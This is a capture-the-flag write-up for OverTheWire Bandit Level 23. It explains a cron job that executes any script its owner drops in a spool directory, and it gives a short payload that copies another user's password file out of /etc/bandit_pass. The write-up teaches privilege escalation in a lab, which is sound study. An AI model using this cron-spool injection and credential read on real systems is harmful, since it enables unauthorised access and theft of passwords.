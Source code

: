# Bandit

## Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

<br/>

## Solution
Again, we find a script present in `/etc/cron.d/` directory for user bandit24.

Content of `/usr/bin/cronjob_bandit24.sh`
```shell
$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Breakdown of Above Script: <br/>

  - Look for a file owned by user `bandit23` in `/var/spool/bandit24`<br/>
  - If its there, run that file and terminate it if it runs for more than 60 seconds

Below steps were taken to reveal password for next Level:

1. Create a file `/tmp/payload.sh` file (<em>logged in as bandit23</em>).
2. Put a simple command to output password in this file.

```shell
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit24_passwd
```

3. Make the file executable using `chmod` and copy to `/var/spool/bandit24` directory.
4. Wait, cronjob will run `payload.sh` as user bandit24 and then delete it.
5. As result, we can find the password in `/tmp/bandit24_passwd` file.

<br/>
Solution Screenshot:

![Level 23 Image](./images/Level23.png)

<br/>

[<< Back](https://grey-fish.github.io/Bandit/index.html)

